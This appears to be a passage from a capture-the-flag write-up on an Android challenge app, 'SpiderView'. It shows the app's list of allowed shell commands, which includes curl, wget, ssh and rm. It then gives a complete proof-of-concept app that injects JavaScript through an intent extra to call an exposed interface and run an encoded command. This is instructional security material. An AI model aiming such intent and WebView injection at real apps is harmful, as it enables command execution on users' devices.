 These are the filtered commands and we are required to run one of them

```java
21  private boolean isUtilityCommand(String str) {
22	    String[] strArr = {"cat", "ls", "echo", "grep", "find", "head", "tail", "wc", "cp", "mv", "rm", "mkdir", "rmdir", "chmod", "chown", "ps", "top", "df", "du", "ifconfig", "ping", "curl", "wget", "scp", "ssh", "man", "nano", "vi", "sed", "awk", "sort", "uniq", "tar", "gzip", "gunzip", "zip", "unzip", "touch", "history"};
        ...
28	    return false;
29  }
```

Let's create our POC app to run one of the utility commands.

```java
package com.example.spiderviewsolution;

import android.content.Intent;
import android.os.Bundle;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });

        Button button = findViewById(R.id.button);

        Intent intent = new Intent();
        intent.setClassName("com.example.spiderview", "com.example.spiderview.MainActivity"); // set the classname of the app and activity to send our intent
        intent.putExtra("viewContent", "<html><script>SpiderView.testRunCommand(\"YkhNPQ==\");</script></html>"); // write our payload as a string extra to run javascript and call the interface method

        button.setOnClickListener(v -> startActivity(intent)); // trigger the exploit when a button is clicked
    }
}
```
